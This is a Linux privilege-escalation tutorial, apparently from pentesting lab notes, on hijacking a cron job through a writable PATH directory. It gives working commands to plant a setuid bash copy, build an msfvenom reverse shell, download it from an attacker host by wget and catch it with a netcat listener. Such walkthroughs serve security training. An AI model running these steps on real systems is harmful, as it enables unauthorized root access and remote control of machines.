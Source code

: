 ### **PATH ENVIRONMENT VARIABLE**

In crontab, the default PATH environment variable is set to /usr/bin:/bin. However, this PATH can be overwritten within the crontab file. If a cron job script or program does not use an absolute path, and one of the directories in the PATH is writable by our user, we may be able to create a script or program with the same name as the cron job,This vulnerability allows us to run our own program/script instead of the intended cron job script, which could be exploited for various purposes.

### **STEPS TO IDENTIFY AND EXPLOIT PATH ENVIRONMENT VARIABLE**

1.  Run LinPEAS to detect potential vulnerabilities, such as issues in the cron PATH.  
    
    ![](../../../../img/Linux-Environment/68.png) 
    
2.  We can Find where the overwrite.sh script is located using the find command:  
    `find / -iname overwrite.sh 2>/dev/null`  
    
    ![](../../../../img/Linux-Environment/69.png) 

    ??? info "NOTE"

        This indicates that overwrite.sh executes from the /usr/local/bin directory.
    
3.  Confirm that we have write permissions on the target directory:  
    `ls -la /home | grep "user"`  
    
    ![](../../../../img/Linux-Environment/70.png) 

    ??? info "NOTE"

        Here we see “w”, which means that we can write in this directory.
     
4.  To exploit this cron job, all we have to  craft a malicious payload named “overwrite.sh” and drop it in the /home/user/ folder.  
    `echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/rootme\nchmod +xs /tmp/rootme' > /home/user/overwrite.sh`
    
5.  In order for the cron job to execute our binary, Ensure the malicious script has execute permissions:  
    `chmod 755 /home/user/overwrite.sh`  

    ![](../../../../img/Linux-Environment/71.png) 
    
6.  Once the cron job has created and setuid rootbash, use it to open a shell with root privileges:  
    `/tmp/rootme -p`  
    
    ![](../../../../img/Linux-Environment/72.png) 
    
7.  Alternatively, use msfvenom to create a reverse shell payload:  
    `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.11.92.52 LPORT=1337 -a x64 -f elf -o overwrite.sh`  
    
    ![](../../../../img/Linux-Environment/73.png) 
    
8.  Now that our payload has been created, we can download it onto the target machine (check out FIle Transfer Section)  
    `wget http://[IP-ADRESS]:8000/overwrite.sh -O /home/user/overwrite.sh`  
    
    ![](../../../../img/Linux-Environment/74.png) 
    
9.  it is still not ready. In order for the cron job to execute our binary, we need to give is execute permissions.  
    `chmod 755 ./overwrite.sh`  
    
    ![](../../../../img/Linux-Environment/75.png) 
    
10. The payload is ready and should trigger every minute. All that is left to do is start a netcat listener on out attacker machine  
    `nc -lvnp 1337`  
    
    ![](../../../../img/Linux-Environment/76.png) 